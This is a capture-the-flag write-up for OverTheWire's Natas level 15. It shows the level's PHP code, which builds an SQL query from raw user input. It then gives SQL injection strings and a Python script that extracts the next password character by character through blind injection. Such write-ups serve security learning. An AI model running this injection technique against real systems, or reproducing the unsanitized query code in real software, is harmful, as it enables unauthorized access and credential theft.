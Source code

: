 # Natas 15 -> 16

```
http://natas15.natas.labs.overthewire.org
```

```
Username: natas15
```

This time we have a form that checks the existence of a user, also the source code:

```php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? }
```

Let's try again the same sqli from the previous level

```
?username=q" or 1="1
```

Works.  
What about...

```
?username=natas16
```

Yep. ` This user exists.`  
But that's not what we're after. Since we already know that the table `users` has a column `username` and a column `password`, let's try...

```
?username=natas16%22%20AND%20password%20LIKE%20%22%c%&debug=1
```

Great. That prints

```
Executing query: SELECT * from users where username="natas16" AND password LIKE "%c%"
This user exists.
```

So basically we need to *bruteforce* our way into `natas16`.  
Hint: so far the passwords had a length of 32 chars.

```python
#!/usr/bin/env python

import sys
import string
import requests

url = "http://natas15.natas.labs.overthewire.org/"
http_user = "natas15"
http_pass = ""

bf_passwd = ""
bf_dict = string.ascii_letters + string.digits

while len(bf_passwd) != 32:
    for char in bf_dict:
        r = requests.get(url,
                         params={
                             'username': 'natas16" AND password LIKE BINARY "{}%" "'.format(bf_passwd + char)
                         },
                         auth=(http_user, http_pass))
        sys.stdout.write("\rTrying: {} | Password: {}".format(char, bf_passwd))
        sys.stdout.flush()
        if "This user exists." in r.text:
            bf_passwd += char
            sys.stdout.write("\rMatch: {} | Password: {}".format(char, bf_passwd))
            sys.stdout.flush()
            break

print "\rPassword: {}".format(bf_passwd)
```

* php
* python
* mysql_connect
* sqli
